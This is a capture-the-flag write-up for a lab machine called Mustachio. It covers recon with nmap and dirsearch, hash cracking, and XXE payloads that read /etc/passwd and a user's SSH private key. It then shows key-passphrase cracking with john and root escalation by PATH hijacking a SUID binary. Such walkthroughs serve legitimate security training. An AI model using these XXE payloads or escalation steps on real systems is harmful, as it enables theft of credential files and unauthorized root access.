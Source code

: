 # Mustachio

Easy boot2root Machine

## Recon

As at the beginning of every hack we need to collect information and I started with NMap using the command ```nmap -sV -sC mustachio.thm -p-``` and got this answer:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After that I went to the site to get my first impressions and in the meantime I left Dirsearch running using the command ```dirsearch -w /usr/share/wordlists/dirb/big.txt -u mustachio.thm```.

![](Screenshot_1.png)

When I looked at the terminal that was running Dirsearch it brought me this:

```
[22:13:19] 301 -  303B  - /custom  ->  http://ctf.thm/custom/   
[22:13:36] 301 -  302B  - /fonts  ->  http://ctf.thm/fonts/   
[22:13:48] 301 -  303B  - /images  ->  http://ctf.thm/images/
[22:14:35] 200 -   28B  - /robots.txt                     
[22:14:40] 403 -  272B  - /server-status  
```

In the Custom folder I found a file called "user.bak" in mustachio.thm/custom/js

![](Screenshot_2.png)

I downloaded the file and opened a terminal in the Downloads folder and typed the command ```strings user.bak```. Inside the file I found a username called admin and a password in hash format. So I used crackstation.net to crack the password and this was the result:

## Vulnerability Analysis and Exploration

![](Screenshot_3.png)

Wow! We managed to crack the hash and get the password, we are on the right path. Let's keep it there because we'll be using it in the future.
I explored the other directories that I found with Dirsearch but I didn't find anything interesting. Then I went to HTTP port 8765 and took the opportunity to use Dirsearch on it too:

![](Screenshot_4.png)

Now we find an admin panel and we can use the credentials found on port 80.

![](Screenshot_5.png)

Yes! We managed to get into the admin panel, now we need to take a look at this panel and find out its functions.
Well, after a while of looking for something in the admin panel I ended up intercepting the request I made to the server when I wrote something in the comments part. So I decided to look at the request response and found this:

![](Screenshot_6.png)

Wow! We found another file on the web, let's download it and see what's in it.

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

We found a message that was written in XML, what's the flaw using XML ? Are you thinking the same thing as me? Yes XXE is the fault, I'm already happy to get to that part lol. I applied the same message and gave this result:

![](Screenshot_7.png)

Well, we saw above that there was a message telling Barry that his SSH key was ready, when I got this username I tried to crack his SSH password but it gave this result: ```[ERROR] target ssh: //mustachio.thm:22/ does not support password authentication (method reply 4).```.

So I tried to log in using SSH and this error came up: ```barry@mustachio.thm: Permission denied (publickey).```.

So we need an id_rsa.pub to get one of the first steps to access the system, well let's enumerate more users, I will use a payload of XXE to get /etc/passwd.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Screenshot_8.jpg)

Yes! We were able to enumerate the users, so we have 3 users root, joe, barry. We'll save them for future exploration. Well now that I know the users I'm going to try to get the id_rsa.pub starting with the user Barry.

![](Screenshot_9.jpg)

Good we got it, I tried it with the user Joe but I wasn't successful. Now copy id_rsa.pub and paste it into your id_rsa.pub on your system. Example: ```echo "<target id_rsa.pub> >> /root/.ssh/id_rsa.pub``` or with Kali user ```echo "<target id_rsa.pub> >> /home/kali/ .ssh/id_rsa.pub```.

Well, since Barry has an id_rsa.pub he probably has an id_rsa too. So let's try to get his RSA.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Screenshot_10.jpg)

Yes! We got id_rsa and id_rsa.pub, id_rsa just this half pie more than to fix it, it just has to look like this model:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
(...)
```

There we fixed the id_rsa. Copy and paste it into your folder and allow it using the command ```chmod 600 <id_rsa>``` and now let's try to log into the machine with the command ```ssh -i <id_rsa> barry@mustachio.thm ```.

Well here is asking for a key password. We have to crack this id_rsa and figure out the password, so let's use the ssh2john.py tool, you can find it by typing the command ```locate ssh2john.py``` but if it doesn't exist you will need to download the John tool first.

Now I'm going to turn id_rsa into a bunch of characters that only John understands for us to crack the password. Run these commands:

```
/usr/share/john/ssh2john.py <id_rsa> > john.txt

john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Good! We managed to crack the RSA password! Now just log in with the command ```ssh -i <id_rsa> barry@mustachio.thm```. It's asking for password so let's put in the password we got.

## Post Exploitation
![](Screenshot_11.png)

Wow we are in the system! That's really good! Now just get the user.txt flag.

Now we need to escalate privilege to become root, let's go to the home/joe folder. It has a file called live_log and if we type ```ls -la live_log``` we will see this ```-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log```.
This indicates that this file has SUID and can be used to scale privileges, since if we run this file with just the ```./live_log``` command we will be running it with ROOT.

When I looked at this file I thought of typing ```strings live_log``` and found something interesting in it:

![](Screenshot_12.png)

Observing this I saw that it was a command so I copied the command and tried to run it with the user Barry but it gave Permission Denied, this is more proof that when we run a file that has rwsr we are running as root.

When I saw this I quickly remembered TryHackMe's Kenobi room:

![](Screenshot_13.png)

I saw that we could change the tools folder from /usr/bin and a custom one like /tmp/attacker and create our own tool like the tail that was mentioned inside live_log. What if we change /usr/bin to /tmp/attacker and create a tool called tail and put a shell inside it? Does it work? Let's test it, first let's create a folder inside /tmp called attacker ```mkdir /tmp/attacker``` and then go into it.
Now let's change the /usr/bin folder to /tmp/attacker using the command ```export PATH=/tmp/attacker:$PATH```.

Now we're going to create the tail file, let's add this to it:

```echo '#!/bin/bash' > tail```

```echo '/bin/bash' >> tail```

After that let's type ```chmod +x tail```. Now let's go back to the live_log folder and let's run it.

![](Screenshot_14.png)

GG! Yes! We managed to hack the machine and get the root.txt flag. And so we finished another CTF. It is very rewarding to be able to hack a machine.

Thanks for reading my Writeup, I have a YouTube channel if you can subscribe it will help me a lot
https://www.youtube.com/channel/UCol7qlIUc0o0JKmdrmTWQtA

To the next :)
